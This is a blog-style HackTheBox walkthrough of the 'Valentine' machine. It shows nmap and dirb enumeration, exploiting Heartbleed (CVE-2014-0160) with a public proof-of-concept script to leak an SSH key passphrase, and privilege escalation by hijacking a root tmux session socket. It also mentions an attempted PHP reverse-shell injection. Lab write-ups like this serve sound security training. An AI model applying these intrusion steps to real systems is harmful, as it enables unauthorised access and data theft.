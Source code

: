 ```yaml
---
title: HackTheBox - Valentine
date: 2020-12-25 20:45:00 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, nmap scan vuln, CVE-2014-0160, heartbleed, tmux, writeup, oscp-prep]
image: https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/valentine.png
---
```


## Foothold

### `nmap` scan (open ports)

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Valentine-full-port-scan.txt 10.10.10.79
Warning: 10.10.10.79 giving up on port because retransmission cap hit (1).
Nmap scan report for 10.10.10.79
Host is up (0.099s latency).
Not shown: 65532 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 96:4c:51:42:3c:ba:22:49:20:4d:3e:ec:90:cc:fd:0e (DSA)
|   2048 46:bf:1f:cc:92:4f:1d:a0:42:b3:d2:16:a8:58:31:33 (RSA)
|_  256 e6:2b:25:19:cb:7e:54:cb:0a:b9:ac:16:98:c6:7d:a9 (ECDSA)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Not valid before: 2018-02-06T00:45:25
|_Not valid after:  2019-02-06T00:45:25
|_ssl-date: 2020-12-24T14:16:15+00:00; +3m43s from scanner time.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Apache/2.2.22 (port 443)

Thanks to the [`nmap` scan](#nmap-scan-open-ports) we can identify a domain name: `valentine.htb`. Let's add it to `/etc/hosts`.

#### `dirb`

![dirb](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/dirb.png)

There is `cgi-bin` directory, is it to vulnerable to **Shellshock** ? Let's look for `.sh` file:

![sh](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/sh.png)

Nothing found. Let's check the URLs that `dirb` has highlighted.

#####  `/dev` directory

There are two files in the `/dev` directory: 

![dev](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/dev.png)

- **notes.txt**:

![notes](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/notes.png)

- **hype_key**:

![hype_key](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/hype_key.png)

###### cyberchef

Via [CyberChef](https://gchq.github.io/CyberChef/), we decoded **hype_key**:

![cyberchef](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/cyberchef.png)

Since it's an **encrypted** RSA private key (as we can see on line 2), I will not try to log in with ssh, because it will certainly ask for the private key's password.

###### XSS / PHP injection

I saw that we can inject html/javascript code in both `/encode` and `/decode` directories:

![xss](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/xss-3.png)

So I tried to inject a tiny PHP reverse shell:

![php injection](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/php-injection.png)

After multiple attempts, I was pissed off so I ran another nmap scan.

### `nmap` scan (vuln)

```bash
$ nmap -min-rate 5000 --max-retries 1 --script vuln -oN vuln-scan.txt 10.10.10.79
```

![heartbleed](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/heartbleed.png)

The web server seems vulnerable to the **Heartbleed vulnerability** that affects OpenSSL. 

![xkcd heatbleed explanation](https://https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentines.xkcd.com/comics/heartbleed_explanation.png)

> The Heartbleed bug allows anyone on the Internet to read the memory of the systems protected by the vulnerable versions of the OpenSSL software. This compromises the secret keys used to identify the service providers and to encrypt the traffic, the names and passwords of the users and the actual content. This allows attackers to eavesdrop on communications, steal data directly from the services and users and to impersonate services and users. [Source: [heartbleed.com](https://heartbleed.com/)]

We can confirm this by using `sslyze`:

![sslyze](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/sslyze.png)

In order to exploit it, we can use this [PoC script](https://gist.github.com/eelsivart/10174134).

When running the script we get an output with a lot of useless 00's:

```bash
$ python heartbleed.py 

defribulator v1.16
A tool to test and exploit the TLS heartbeat vulnerability aka heartbleed (CVE-2014-0160)
Usage: heartbleed.py server [options]

Test and exploit TLS heartbeat vulnerability aka heartbleed (CVE-2014-0160)

Options:
  -h, --help            show this help message and exit
  -p PORT, --port=PORT  TCP port to test (default: 443)
  -n NUM, --num=NUM     Number of times to connect/loop (default: 1)
  -s, --starttls        Issue STARTTLS command for SMTP/POP/IMAP/FTP/etc...
  -f FILEIN, --filein=FILEIN
                        Specify input file, line delimited, IPs or hostnames
                        or IP:port or hostname:port
  -v, --verbose         Enable verbose output
  -x, --hexdump         Enable hex output
  -r RAWOUTFILE, --rawoutfile=RAWOUTFILE
                        Dump the raw memory contents to a file
  -a ASCIIOUTFILE, --asciioutfile=ASCIIOUTFILE
                        Dump the ascii contents to a file
  -d, --donotdisplay    Do not display returned data on screen
  -e, --extractkey      Attempt to extract RSA Private Key, will exit when
                        found. Choosing this enables -d, do not display
                        returned data on screen.
$ python heartbleed.py $TARGET
```

![00](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/00.png)

Changing the line 116 allows us to reduce the payload size (0x40 to 0x10):

![payload length](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/payload_length.png)

We can run the script multiple times via the `-n` option. By doing so, we are able to read target's memory's content:

![secret](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/secret.png)
img
$ echo -n aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg== | base64 -d
heartbleedbelievethehype
```

`heartbleedbelievethehype` is probably the passphrase of the `hype_key` we found earlier. Let's give it a try with `hype` as username _(because of the filename)_ :

![ssh](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/ssh.png)

## User (hype)

```bash
hype@Valentine:~/Desktop$ cat user.txt 
e6710a5464769fd5fcd216e076961750
hype@Valentine:~/Desktop$ 
```

This time, we do not know the password of the user so we cannot use `sudo` to check if there is a way to perform a privilege escalation.

Therefore, I will use [linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) to perform enumeration on the system.

> The URL [https://linpeas.sh/](https://linpeas.sh/) exists :D

There are unexpected directories in `/` that we have access:

![unexpected in root](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/linpeas-1.png)

![/.devs directory](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/devs.png)

The process below leads us to a privesc:

![strange process](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/linpeas-3.png)

```bash
hype@Valentine:/tmp$ tmux -S /.devs/dev_sess
```

## Root

![root](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/root.png)

___

## Useful links

- [CyberChef](https://gchq.github.io/CyberChef/)
- [CVE-2014-0160](http://cvedetails.com/cve/2014-0160/)
- [Heartbleed](https://heartbleed.com/)
- [Heartbleed exploit PoC](https://gist.github.com/eelsivart/10174134)
